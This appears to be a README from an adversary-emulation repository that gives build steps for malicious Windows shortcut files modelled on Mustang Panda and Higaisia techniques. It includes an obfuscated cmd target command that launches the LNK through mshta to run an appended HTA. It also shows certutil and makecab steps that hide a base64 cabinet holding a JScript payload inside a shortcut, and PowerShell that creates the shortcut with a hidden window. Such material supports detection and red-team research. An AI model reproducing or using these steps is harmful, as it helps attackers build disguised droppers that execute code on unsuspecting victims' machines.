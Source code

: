 # LNKs

|Name|Description|
|--|--|
|Mustang Panda|Calls MSHTA on itself to execute an embedded HTA|
|Higaisia|Drops an embedded base64-encoded cabinet file to disk, decodes it, extracts a JScript file from the cabainet, then executes the script with WScript|

## Steps to Reproduce

### Mustang Panda

1. create a shortcut
2. create an HTA file containing your code
	- included is the HTA used in the provided lnk
3. In the lnk's target property, set the following command:

	```
	C:\Windows\System32\cmd.exe /c %comspec% /c f%windir:~-3,1%%PUBLIC:~-9,1% %x in (%temp%=%cd%) do f%windir:~-3,1%%PUBLIC:~-9,1% /f "delims==" %i in ('dir "%x\newfile.lnk" /s /b') do start %TEMP:~-2,1%%windir:~-1,1%h%TEMP:~-13,1%%TEMP:~-7,1%.exe "%i"
	``` 
4. concatenate the two files together (lnk first)
	- > cmd> copy file.lnk+file.hta newfile.lnk
5. (optional) set the LNK's run property to "minimized"

*note: this payload will fail to run properly when the path contains a space*

### Higaisia

1. Create a cabinet file of the higaisia.js file and any other file (e.g. an empty text file; minimum 1 additional file)
	- > cmd> makecab /F files.txt /d CabinetName1=file.cab /D DiskDirectoryTemplate=<path to dir>
		- files.txt = list of files
		- put the directory where you want to store the cab as the directory template
2. Base64 encode the cabinet
	- > cmd> certutil -encode file.cab file.cab.b64
		- delete the certificate lines from the new file (first and last), then delete all newlines, finally add a newline at the start of the file
3. Create a shortcut file. Since the command will be longer than the GUI allows, use PowerShell 
	- example:
		```
		ps> $wssh = new-object -comobject wscript.shell
		$lnk = $wssh.createshortcut("path1\base.lnk")
		$lnk.windowstyle = "7"
		$lnk.targetpath = "C:\Windows\System32\cmd.exe"
		$lnk.arguments = (gc path2\higaisia.bat)
		$lnk.save()
		```
		- path1 = where you want to save the lnk
		- path2 = path where higaisia.bat is location (this directory)
		- higaisia.bat assumes the lnk will be called higaisia.lnk - change as needed
4. Concatenate the lnk and base64
	- > cmd> copy /b file.lnk+file.cab higaisia.lnk

